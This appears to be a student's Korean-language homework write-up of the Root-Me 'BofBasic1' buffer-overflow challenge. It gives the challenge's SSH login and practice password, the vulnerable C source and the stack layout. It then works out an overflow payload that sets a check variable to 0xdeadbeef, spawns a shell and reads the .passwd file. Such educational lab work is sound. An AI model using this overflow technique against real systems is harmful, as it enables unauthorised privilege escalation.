 ## Week4_HW_Root-Me_BofBasic1

> ### Access
* `ssh -p 2222 app-systeme-ch13@challenge02.root-me.org`   
* passwd : `app-systeme-ch13`


<hr>

* Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
<hr>

### Explanation

* 변수가 var -> check -> buf 순으로 선언되었기 때문에 
* 위 코드에서 스택의 구조는 아래와 같다.


```<pre>
[      buf[40]      ]
[ check(0x04030201) ]
[        var        ]
[        SFP        ]
[        RET        ]

```

* fgets함수로 45바이트의 문자를 받을 수 있기 때문에 
check변수를 원하는 값(0xdeadbeef)으로 덮을 수 있다.

* buf에 40byte를 채우고 check에 0xdeadbeef를 리틀엔디언 방식을 넣어주면 쉘이 실행될 것이다.
* 위의 과정을 수행할 수 있는 페이로드를 짜면 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"') | ./ch13`
이다. 
    * "|" 기호는 "파이프라인"이라는 기호로 한명령어의 출력을 다른 명령어의 입력으로 연결하는데 사용된다.
    * 따라서 파이프라인 왼쪽에 있는 입력값을 './ch13'의 입력을 전달한다.
* _**그러나!!**_ 이대로 실행하면 "shell closed! Bye" 라는 문구가 출력되면서 쉘이 종료된다.
* 이를 방지하기 위해 cat과 같이 shell 실행 후 입력을 받아주는 명령어를 추가하여 shell이 종료되지 않고 유지되게 해준다.
* 명령어를 구분하는 구분자로 ";" 가 사용되므로 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13` 가 최종 페이로드코드가 된다.

* 위 페이로드를 넣으면 `"Yeah dude! You win!\nOpening your shell...\n"` 라는 문구가 나오고
* 이후 `ls -a` 명령어를 통해 .passwd파일을 확인할 수 있고 `cat` 명령어를 통해 password를 취할 수 있다.




